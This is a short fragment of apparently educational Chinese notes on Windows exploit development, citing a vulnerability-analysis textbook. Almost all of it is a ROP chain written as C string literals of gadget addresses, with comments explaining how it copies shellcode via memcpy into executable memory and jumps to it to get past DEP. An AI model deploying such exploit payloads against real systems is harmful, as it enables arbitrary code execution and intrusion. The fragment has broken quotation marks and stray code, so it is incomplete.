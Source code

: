 ```c
	   return 0; 
}

```

```C
"\xfb\xe4\x87\x7c"  // pop eax  0x7c87e4fb ①保存eax值
"\x3e\x93\xbf\x7c" // 0x7cbf933e pop pop ret ⑤下移指针 ，ret memcpy
"\x99\xc8\xa7\x7c" //0x7ca7c899  ②push esp pop ebp ret 4 
"\xd6\x89\x87\x7c" // 0x7c8789d6 pop ecx retn//③下移esp指针，ret ④ push esp jmp eax 
"\x07\x00\x14\x00”  //  ⑦ memcpy 执行完 leave ret 执行的地址
```
```C
"\x00\x00\x14\x00"//可执行内存空间地址，复制用 
"\xBF\x7D\xC9\x77”//push esp jmp eax && 原始 shellcode 起始地址， ④设置 参数，接触执行流
"\xFF\x00\x00\x00"//复制长度
```
```C
"\xAC\xAF\x94\x7C”//⑥memcpy ， ret到⑦shellcode 
```
### 参考

《0day安全软件漏洞分析技术第二版》12.4节





























